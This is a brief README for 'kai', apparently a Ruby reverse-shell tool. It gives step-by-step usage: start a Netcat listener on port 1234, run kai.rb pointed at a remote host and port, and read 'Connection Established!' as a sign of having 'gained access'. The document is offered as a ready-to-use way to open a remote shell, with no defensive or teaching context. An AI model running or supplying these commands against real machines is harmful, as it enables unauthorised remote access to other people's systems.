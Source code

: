 ## kai

## Dependencies

**In order for the script to work you need to have Ruby installed on the system.**  

**1. Fire up Netcat for incoming connections. `$ nc -lvp 1234`**  
**2. Run Kai. `$ ./kai.rb --remote-host 192.168.1.109 --port-remote 1234`**  
**3. If you get this message `Status: Connection Established!` it means you gained access.**  

  <a href="https://www.ruby-lang.org/en/" target="_blank" rel="noreferrer">
    <img src="https://raw.githubusercontent.com/devicons/devicon/master/icons/ruby/ruby-original.svg" alt="ruby"
      width="50" height="50" /> 
